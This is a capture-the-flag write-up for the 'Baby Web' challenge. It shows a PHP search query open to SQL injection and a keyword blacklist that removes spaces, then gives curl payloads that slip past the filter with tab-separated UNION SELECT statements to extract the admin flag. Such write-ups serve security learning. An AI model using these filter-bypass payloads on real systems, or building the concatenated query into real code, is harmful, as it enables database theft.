




# Baby Web

> It is all in the challenge.
>  
> http://ctf.pwn.sg:8180
>  
> *Creator - quanyang (@quanyang)


### The website


> The flag is in the flag column of the user 'admin'. 


This is the screenshot of the website. We are given a search bar to search for users.


The source of the php file is in `src/baby_web.php`. The vulnerability lies inside that file.

### Vulnerable to SQL injection

The following php statements show that the SQL query is vulnerable to injection.
```
$sql = "SELECT username FROM users WHERE username like '%$username%';";
$result = $conn->query($sql);
```


### A form of "Protection" 

The SQL injection is not that straight forward though. There is a form of "protection".
```
$username = str_replace(" ","", $username);
$array = array("=", "union", "join", "select", "or", "from", "insert", "delete");
if(0 < count(array_intersect(array_map('strtolower', explode(' ', $username)), $array)))
{
die("die hacker!");
}
```

> str_replace — Replace all occurrences of the search string with the replacement string
> explode — Split a string by a string

`str_replace(" ","", $username)` deletes spaces from the variable `$username`. So when we give an input `"ad min"`, the SQL select statement selects usernames that matches `"admin"`.




### Attempting to exploit

That just means we cannot use spaces. What about newline and tab characters? They work, but unfortunately we cannot use the `'\n'` and `'\t'`. Both curl queries below result in HTTP error 500.

```
curl --data-binary "username=%'\nUNION\nSELECT\nflag\nFROM\nusers;#--" -X POST http://ctf.pwn.sg:8180/?search
```

```
curl --data-binary "username=%'\tUNION\tSELECT\tflag\tFROM\tUSERS;#--" -X POST http://ctf.pwn.sg:8180/?search
```




This is where we got stuck. We did not manage to solve the challenge. Turns out, we were on the right track. We just had to make a minor change to win.

### Successful exploitation

We should have used a file instead, where we could add tab and newline characters without using `'\t'` and `'\n'`.

```
$ cat query_string 
username=%'	UNION	SELECT	flag	FROM	users;#--
$ curl -d "@query_string" -X POST http://ctf.pwn.sg:8180/?search > output.html
```



We were *that* close to winning.

